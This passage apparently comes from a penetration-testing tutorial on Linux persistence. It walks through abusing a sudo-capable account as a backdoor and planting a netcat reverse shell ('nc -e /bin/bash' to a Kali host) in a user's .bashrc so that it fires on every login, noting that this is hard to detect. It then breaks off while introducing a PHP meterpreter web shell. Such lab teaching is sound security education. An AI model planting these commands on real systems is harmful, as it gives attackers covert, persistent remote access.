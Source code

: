 1. After authenticating with the server via SSH, we can confirm that the user account has administrative privileges by using the sudo command.

    ![sudo apt update command](sudo-apt-update-command.png "sudo apt update command")

    As shown in the preceding screenshot, the user account has administrative privileges and can run any command on the system without accessing or interacting with a “root” account.

    This account can be used for backdoor access whenever you want to avoid using the “root” account or any other legitimate user accounts on the target system and ensures that you have overt access to the target.

## Unix Shell Configuration Modification

This persistence technique will involve adding a bash reverse command that will connect back to our netcat listener in a user account’s .bashrc file. The .bashrc file is a config file that is used to customize bash and is executed when a user logs in with the bash shell.

1. The first step will involve opening the .bashrc file with a text editor This can be done by running the following command:

        nano ~/.bashrc

1. After opening the file with a text editor, we can add a simple bash command that will provide us with a reverse shell whenever a user logs in. This can be done by adding the following command:

        nc -e /bin/bash <KALI-IP> <PORT> 2>/dev/null &

    As shown in the following screenshot, the command should contain your Kali IP and port netcat is listening on.

    ![bashrc file with netcat command](bashrc-file-with-netcat-command.png "bashrc file with netcat command")

1. After adding the bash command to the .bashrc file, we can set up a listener with Netcat on Kali by running the following command:

        nc -nvlp <PORT>

1. Whenever a user logs in to the user account, the command in the .bashrc file will be executed and will consequently provide you with a reverse shell on the netcat listener as shown in the following screenshot.

    ![netcat listener receiving bashrc netcat connection](netcat-listener-receiving-bashrc-netcat-connection.png "netcat listener receiving bashrc netcat connection")

    We have now been able to set up persistence via the .bashrc file, this technique has the added advantage of being harder to detect as the reverse shell command is hidden within a legitimate configuration file.

## Persistence Via Web Shell

This persistence technique involves generating and uploading a PHP web shell to the target server. Given that the target server is running the LAMP stack, we can create a PHP meterpreter payload and upload it to the web server as a backdoor.

1. The first step will involve generating the PHP meterpreter payload with Msfvenom, this can be done by running the following command:
